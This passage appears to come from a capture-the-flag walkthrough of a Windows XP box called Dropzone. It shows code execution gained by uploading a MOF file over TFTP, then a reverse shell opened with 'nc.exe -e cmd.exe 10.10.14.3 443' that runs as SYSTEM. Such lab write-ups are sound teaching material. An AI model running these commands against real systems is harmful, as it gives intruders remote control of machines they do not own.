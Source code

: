 as a first test, I will try to get the machine to ping my workstation. I’ll put `ping.exe 10.10.14.3` in the place of `@EXE@` in the template, and save it as `ping.mof`. Next, upload it via tftp, and watch the pings return with tcpdump in the lower tmux window:

![ping](https://0xdfimages.gitlab.io/img/dropzone-ping.gif)

#### Shell

Now that I’ve proven code execution, I’ll try to get a shell with `nc`. First, upload nc.exe to `system32` (make sure to switch to binary mode first, or the uploaded exe will be corrupt). Since that will be in the path, I don’t have to worry about giving a full path in the template (if I wanted to do full path, I could double escape, so `\\\\windows\\\\system32\\\\nc.exe`). Then I update the template with `nc.exe -e cmd.exe 10.10.14.3 443`.

Upload, and shell:

![shell](https://0xdfimages.gitlab.io/img/dropzone-shell.gif)

Windows XP actually doesn’t have `whoami`, but I can check the environment variables to get a good idea that I’m running as SYSTEM (see two comments added by me):

```

C:\WINDOWS\system32>set
ALLUSERSPROFILE=C:\Documents and Settings\All Users
CommonProgramFiles=C:\Program Files\Common Files
COMPUTERNAME=DROPZONE
ComSpec=C:\WINDOWS\system32\cmd.exe
FP_NO_HOST_CHECK=NO
NUMBER_OF_PROCESSORS=1
OS=Windows_NT
Path=C:\WINDOWS\system32;C:\WINDOWS;C:\WINDOWS\System32\Wbem
PATHEXT=.COM;.EXE;.BAT;.CMD;.VBS;.VBE;.JS;.JSE;.WSF;.WSH
PROCESSOR_ARCHITECTURE=x86
PROCESSOR_IDENTIFIER=x86 Family 6 Model 63 Stepping 2, GenuineIntel
PROCESSOR_LEVEL=6
PROCESSOR_REVISION=3f02
ProgramFiles=C:\Program Files
PROMPT=$P$G
SystemDrive=C:
SystemRoot=C:\WINDOWS
TEMP=C:\WINDOWS\TEMP                                    <-- TEMP is not in %USERPROFILE%\Local Settings\
TMP=C:\WINDOWS\TEMP
USERPROFILE=C:\WINDOWS\system32\config\systemprofile    <-- USERPROFILE in system32, not \Documents and Settings\{username}
windir=C:\WINDOWS

```

Alternatively, I can just upload `whoami.exe` (on Kali in `/usr/share/windows-binaries/`):

```

tftp> put ../whoami.exe \windows\system32\whoami.exe
Sent 66560 bytes in 2.7 seconds

```
